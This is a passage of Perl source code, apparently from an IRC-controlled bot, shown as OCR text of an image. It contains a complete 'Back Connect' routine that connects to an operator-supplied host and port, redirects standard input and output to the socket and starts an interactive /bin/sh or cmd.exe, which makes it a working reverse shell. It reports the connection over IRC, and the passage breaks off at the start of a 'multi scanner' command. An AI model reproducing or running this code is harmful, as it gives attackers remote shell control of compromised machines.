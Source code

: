             my $porta = "$2"; 

            my $proto = getprotobyname('tcp'); 

            my $iaddr = inet_aton($host); 

            my $paddr = sockaddr_in($porta, $iaddr); 

            my $zr = "/bin/sh -i"; 

            if ($^O eq "MSWin32") { 

               $zr = "cmd.exe"; 

            } 

            socket(SOCKET, PF_INET, SOCK_STREAM, $proto) or die "socket: $!"; 

            connect(SOCKET, $paddr) or die "connect: $!"; 

            open(STDIN, ">&SOCKET"); 

            open(STDOUT, ">&SOCKET"); 

            open(STDERR, ">&SOCKET"); 

            system("$zr"); 

            close(STDIN); 

            close(STDOUT); 

            close(STDERR); 

            if ($estatisticas){ 

               sendraw($IRC_cur_socket, "PRIVMSG $printl :12[4@3Back-Connect12] Connecting to 4 $host:$porta"); 

            } 

         } 

###################### 

#End of  Back Connect# 

###################### 

###################### 

#    MULTI SCANNER   # 

###################### 

if ($funcarg =~ /^multiscan\s+(.*?)\s+(.*)/){ 

if (my $pid = fork) { 

waitpid($pid, 0); 

} else { 
